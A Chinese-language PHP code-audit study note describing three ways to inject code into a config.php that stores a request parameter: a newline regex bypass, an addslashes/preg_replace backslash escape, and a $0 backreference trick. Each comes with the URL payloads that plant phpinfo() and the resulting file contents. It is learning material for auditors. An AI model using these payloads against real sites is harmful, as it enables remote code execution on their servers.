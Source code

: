 # PHP代码审计

放一些PHP代码审计学习中遇到的很有意思的片段

<details>
<summary>file-config-vulnerability.php</summary>

### 利用换行符来绕过正则匹配的问题

 正则匹配内容:

```
$option=''
```

任意内容里面是可以包含转移符 \ 的,所以我们利用下面的方法:

```
http://127.0.0.1/index.php?option=a';%0aphpinfo();//
http://127.0.0.1/index.php?option=a
```

执行完第一个之后,config.php中的内容为:

```
<?php
$option='a\';
phpinfo();//';
```

 但是这样并没有办法执行phpinfo(),因为我们插入的 单引号 被转移掉了,所以phpinfo()还是在单引号的包裹之内.

我们再访问下面这个

```
http://127.0.0.1/index.php?option=a
```

因为正则 .* 会匹配行内的任意字符无数次.所以 \ 也被认为是其中的一部分,也会被替换掉,执行完之后,config.php中的内容为:

```
<?php
$option='a';
phpinfo();//';
```

转义符就被替换掉了,就成功的getshell.

 

### 利用 preg_replace函数的问题

用preg_replace()的时候replacement(第二个参数)也要经过正则引擎处理，所以正则引擎把`\\`转义成了`\`

也就是说如果字符串是`\\\'`,经过 preg_replace()的处理,就变为 `\\'`,单引号就逃出来了.

payload

```
http://127.0.0.1/index.php?option=a\';phpinfo();//
```

config.php变为:

```
<?php
$option='a\\';phpinfo();//';
```

道理就是 `a\';phpinfo();//` 经过 addslashes()处理之后,变为`a\\\';phpinfo();//` 然后两个反斜杠被preg_replace变成了一个,导致单引号逃脱.

 

### 利用 preg_replace() 函数的第二个参数的问题 

replacement中可以包含后向引用`\\n` 或(php 4.0.4以上可用)$n，语法上首选后者。 每个 这样的引用将被匹配到的第n个捕获子组捕获到的文本替换。 n 可以是0-99，`\\0`和$0代表完整的模式匹配文本。

payload

```
http://127.0.0.1/test/ph.php?option=;phpinfo();
http://127.0.0.1/test/ph.php?option=$0
```

执行第一条后config.php的内容为:

```
<?php
$option=';phpinfo();';
```

再执行第二条后config.php的内容为:

```
<?php
$option='$option=';phpinfo();';';
```
</details>


